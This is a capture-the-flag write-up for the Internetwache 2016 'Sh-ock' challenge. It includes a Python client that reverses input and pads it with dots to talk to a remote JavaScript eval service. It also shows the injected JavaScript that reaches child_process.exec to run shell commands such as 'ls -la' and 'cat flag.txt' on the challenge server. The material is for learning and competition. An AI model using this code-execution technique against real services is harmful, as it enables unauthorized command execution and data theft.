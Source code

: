 # Internetwache 2016 - Exploit - Sh-ock - 90 pts

> Description: This is some kind of weird thing. I am sh-ocked.

> Service: 188.166.133.53:12589 

# Write-up

After connecting to the specified service, we'll get a prompt looking like a shell at first.

But after trying some commands, it gets obvious, that this ain't your normal shell, and it also has an awkward way of reading input.

```shell
$ nc 188.166.133.53 12589
Welcome and have fun!
$ls
[ReferenceError: l is not defined]
$abcdefg
[ReferenceError: fdb is not defined]
```

The error message reveals, that our input gets parsed backwards and it only reads every second character.

Adapting to this:

```shell
$l.a.v.e.
[Function: eval]
```

It seems to be some javascript interpreter. To make it a bit easier to communicate with the service, I wrote a (quick&dirty) python script, which reverses the input and adds the needed placeholders. It then occured, that the longer our command is, the more placeholders were needed (count of dots found by empirical analysis ;-))

```python
#!/usr/bin/python
from socket import *
import sys
import time

BANNER = "Welcome and have fun!\n"

s = None

def connect():
	global s
	s = socket(AF_INET, SOCK_STREAM)
	s.connect(("188.166.133.53",12589))
	banner = s.recv(len(BANNER))
	print banner

def obfuscate(cmd):
	rev = cmd[::-1]
	res = ""

	for ch in rev:
		res += ch

		if len(cmd)<5:
			res += "."
		elif len(cmd)<6:
			res += ".."
		elif len(cmd)<8:
			res += "..."
		elif len(cmd)<9:
			res += "...."
		else:
			res += "....."
	
	return res

def execCmd():
	global s
	input = raw_input(prompt)
	cmd = obfuscate(input)+"\n"
	print "Cmd: %s" % cmd
	s.send(cmd)
	time.sleep(0.5)
	response = s.recv(4096)
	print "Response: %s" % response

connect()

prompt = s.recv(1)

while True:
	execCmd()
``` 

With this out of the way, we can start to find a way to exploit this thing.

```shell
$ python comm.py 
Welcome and have fun!

$sys=require('sys')
Cmd: ).....'.....s.....y.....s.....'.....(.....e.....r.....i.....u.....q.....e.....r.....=.....s.....y.....s.....

Response: { format: [Function],
  deprecate: [Function],
  debuglog: [Function],
  inspect: 
   { [Function: inspect]
[SNIP]
  _exceptionWithHostPort: [Function] }

$exec=require('child_process').exec
Cmd: c.....e.....x.....e...........).....'.....s.....s.....e.....c.....o.....r.....p....._.....d.....l.....i.....h.....c.....'.....(.....e.....r.....i.....u.....q.....e.....r.....=.....c.....e.....x.....e.....

Response: [Function]

$foo=exec("ls -la",function(error,stdout,stdin){sys.print(stdout)})
Cmd: ).....}.....).....t.....u.....o.....d.....t.....s.....(.....t.....n.....i.....r.....p...........s.....y.....s.....{.....).....n.....i.....d.....t.....s.....,.....t.....u.....o.....d.....t.....s.....,.....r.....o.....r.....r.....e.....(.....n.....o.....i.....t.....c.....n.....u.....f.....,.....".....a.....l.....-..... .....s.....l.....".....(.....c.....e.....x.....e.....=.....o.....o.....f.....

Response: ChildProcess {
  domain: null,
  _events: 
   { close: [Function: exithandler],
     error: [Function: errorhandler] },
  _eventsCount: 2,
  _maxListeners: undefined,
  _closesNeeded: 3,
  _closesGot: 0,
  connected: false,
  signalCode: null,
  exitCode: null,
  killed: false,
  spawnfile: '/bin/sh',
  _handle: Process { owner: [Circular], onexit: [Function], pid: 28225 },
  spawnargs: [ '/bin/sh', '-c', 'ls -la' ],
  pid: 28225,
[SNIP]

$foo()
Cmd: )..(..o..o..f..

Response: wHalfOpen: false,
     destroyed: false,
     bytesRead: 0,
     _bytesDispatched: 0,
     _sockname: null,
     _writev: null,
     _pendingData: null,
     _pendingEncoding: '' },
[SNIP]
       _pendingEncoding: '' } ] }
$total 16
drwxr-x---  2 root exp90 4096 Feb 21 03:23 .
drwxr-xr-x 14 root exp90 4096 Feb 11 12:19 ..
-rw-r--r--  1 root exp90   24 Feb 11 18:23 flag.txt
-rw-r--r--  1 root exp90 1011 Feb 11 18:23 task.js
[TypeError: foo is not a function]
$
```

There it is, let's grab it and finish this...

```shell
$foo=exec("cat flag.txt",function(error,stdout,stdin){sys.print(stdout)})
Cmd: ).....}.....).....t.....u.....o.....d.....t.....s.....(.....t.....n.....i.....r.....p...........s.....y.....s.....{.....).....n.....i.....d.....t.....s.....,.....t.....u.....o.....d.....t.....s.....,.....r.....o.....r.....r.....e.....(.....n.....o.....i.....t.....c.....n.....u.....f.....,.....".....t.....x.....t...........g.....a.....l.....f..... .....t.....a.....c.....".....(.....c.....e.....x.....e.....=.....o.....o.....f.....

Response: ChildProcess {
  domain: null,
[SNIP]

$foo()
Cmd: )..(..o..o..f..

Response:   allowHalfOpen: false,
     destroyed: false,
     bytesRead: 0,
[SNIP]
       _pendingEncoding: '' } ] }
$IW{Shocked-for-nothing!}[TypeError: foo is not a function]
```

Flag: `$IW{Shocked-for-nothing!}`
